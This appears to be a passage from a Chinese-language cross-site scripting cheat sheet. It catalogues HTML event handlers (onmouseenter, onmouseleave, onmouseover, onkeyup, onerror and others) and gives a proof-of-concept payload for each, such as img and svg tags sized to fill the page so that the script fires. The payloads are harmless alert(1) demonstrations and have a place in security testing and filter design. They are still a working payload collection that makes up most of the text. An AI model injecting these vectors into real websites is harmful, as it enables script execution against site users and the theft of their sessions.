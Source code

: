 **onmouseenter**
```
鼠标移动到指定点触发。
```

poc

```
<img onmouseenter="alert(1)" src="x.gif" width="9999" height="9999">
<svg onmouseenter="alert(1)" width="9999" height="9999">
```


**onmouseleave,onmouseout**
```
在鼠标指针移出指针时执行。
```

poc

```
<img onmouseleave="alert(1)" src="x.gif" width="9999" height="9999">
<svg onmouseleave="alert(1)" width="9999" height="9999">
<img onmouseout="alert(1)" src="x.gif" width="9999" height="9999">
<svg onmouseout="alert(1)" width="9999" height="9999">
```

**onmousemove,onmouseover**

```
鼠标在指定区域移动触发。
```

poc

```
<img onmousemove="alert(1)" src="x.gif" width="9999" height="9999">
<svg onmousemove="alert(1)" width="9999" height="9999">
<img onmouseover="alert(1)" src="x.gif" width="9999" height="9999">
<svg onmouseover="alert(1)" width="9999" height="9999">
```

### 键盘事件

**onkeydown,onkeypress,onkeyup**

```
这三个都差不多，都是输入按键触发。
```
poc
```
<input type="text" onkeyup="alert(1)">
```


### 框架/对象（Frame/Object）事件

**onerror**
```
如果在加载图片时发生错误则执行 JavaScript，这个使用频率最高的，一般用于img。
```
poc
```
<img src=x onerror=alert(1)>
```

